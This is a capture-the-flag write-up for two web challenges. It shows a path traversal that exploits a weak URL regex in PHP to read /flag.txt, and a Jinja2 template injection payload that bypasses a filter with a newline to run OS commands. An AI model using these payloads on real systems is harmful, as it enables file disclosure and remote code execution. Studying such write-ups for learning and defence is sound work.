 # GitFile Explorer

There are five variables receive values from 5 parameters, when we enter values for these parameter, server will concat these value to valid URL by craft_url function (if we don't enter value for them, they will be set automatically.

```
$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];
```

```
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}
```
After these values are concated into a url, this url will be check with below condition, if it passes the condition, file_get_contents will be called:

```
if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```
The url must be something like : http...//....github/gitlab/bitbucket

We can see that colon(:) is not required after http (http://), so we dont need to enter a url, we can enter a path/filename as input.

It's too obvious here, we can exploit File Inclusion/Path traversal.

Flag is in `/flag.txt` and the current directory is: `/var/www/html`

![image](https://user-images.githubusercontent.com/83667873/159176250-d7cbacb2-a4c3-4b61-9d8f-d95a930b1448.png)

Okay, all we need to do now is calculate that when the values are concatenated, the value will be the path to flag.txt

I will chooses the value as below:
- service: httpa//../github
- owner=..
- repo=..
- branch=..
- file=../flag.txt

When craft_url function is called, the path ($url) will become: `httpa//../github/../../../../flag.txt` (path to flag.txt).

You can change these values to anything which when craft_url is call, it will creata valid path to flag.txt.

![image](https://user-images.githubusercontent.com/83667873/159176762-06b0e3eb-1cbe-4033-9667-115985858dd5.png)

***Flag: zer0pts{foo/bar/../../../../../directory/traversal}***

# miniblog++

Use `\n` to bypass regex.

Payload:

```
{{\nlipsum.__globals__['os'].popen('command').read()}}
```

![image](https://user-images.githubusercontent.com/83667873/159618707-526b397f-dedc-4c46-a360-dfd2de3c6f15.png)

![image](https://user-images.githubusercontent.com/83667873/159618738-6024863b-a2cd-43af-9938-0b12e4395b38.png)

![image](https://user-images.githubusercontent.com/83667873/159618967-4925c734-7ed2-4c02-8648-dd85fa2faa12.png)


![image](https://user-images.githubusercontent.com/83667873/159618934-dbc5cc10-aa7c-46eb-ae59-c04d4e75988e.png)

